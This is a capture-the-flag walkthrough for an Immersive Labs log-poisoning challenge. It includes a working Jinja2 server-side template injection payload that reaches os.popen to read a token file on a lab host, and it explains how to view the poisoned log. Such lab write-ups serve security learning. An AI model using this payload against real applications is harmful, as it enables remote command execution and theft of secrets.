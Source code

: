 ```yaml
---
date: 2025-03-15
categories: [CTF, ImmersiveLabs]
title: "IML - Log Poisoning"
tags: ['log poisoning']

description: "Log Poisoning - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Log Poisoning

This is log poisoning and Jinja SSTI

**Reset if you get Internal Server Error**

Register new user

Go to search term and search for "user=admin"
While on that search result page - change the URL to  `http://10.102.122.21/raw/log.txt`

You should be able to view the raw log file now

Go back to search and use the payload:

{% raw %}
```text
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /tmp/token.txt").read()}}{% endif %}{% endfor %}
```
{% endraw %}

Now search for user=admin again and go to  `http://10.102.122.21/raw/log.txt`

- And we get the token:

![image1](../resources/fb9f93ba8d6645828fcb4124db85d764.png)

<https://jayaye15.medium.com/jinja2-server-side-template-injection-ssti-9e209a6bbdf6>
